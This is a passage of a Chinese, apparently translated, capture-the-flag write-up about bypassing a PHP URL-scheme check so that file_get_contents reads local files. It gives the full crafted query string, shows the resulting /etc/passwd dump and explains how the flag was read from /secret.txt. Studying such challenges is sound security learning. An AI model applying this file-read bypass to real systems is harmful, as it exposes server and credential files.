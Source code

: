 ![](img/aeaad4982309bad397e3b8b0b9416b31.png)

并成功检查所有标记和 **file_get_contents($url，false，$ context)；**解析 url 并获取响应。

*   问题是 file_get_content()是非常不安全的，它将获取任何数据本地，远程无关紧要。
*   所以我试着用`http://uchiha.fuinjutsukeeper.tech:5000/../../../../../../../etc/passwd`但是我得到了这样的回应

`file_get_contents(http://uchiha.fuinjutsukeeper.tech:5000/../../../../../../etc/passwd): Failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request`

```
which is standard response for malformed urls.
```

*   在这一点上，我忽略了一件非常重要的事情，即`(strpos($par['scheme'],'http')`只是检查 scheme 中 http 字符串的存在，这也是提示中提到的
    ，结果我在主题上徘徊了一段时间，从 [parse_url LFI](https://blog.theo.com.tw/Research/PHP-The-issue-between-parse-url-and-real-path/#Interesting-about-parse-url) 博客到 youtube orange 的 ssrf 会谈等等。
*   所以当我尝试`api=localhosthttp://uchiha.fuinjutsukeeper.tech:5000/../../../../../../etc/passwd&endpoint=&submit=Sharingan`的时候。成功了

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

注意 scheme 中的 **localhosthttp** 不是一个有效的 scheme，响应也包含关于它的警告以及文件的内容。

我很惊讶发生了什么，为什么会这样问创造者和一些 peeps。显然这就是 PHP 工作方式，据说如果它不理解给定的方案，它会将 *file://* 协议作为默认协议。我发现 php 中的其他文件读取函数也存在同样的行为，如 **inlcude()** 等。

*   因此，我使用它读取了/secret.txt 文件(…/…/…/…/…/secret.txt)的内容，并找到了挑战标志。

如果你们有任何反馈，请告诉我。希望今年发布更多博客并跟踪进展。

谢谢你
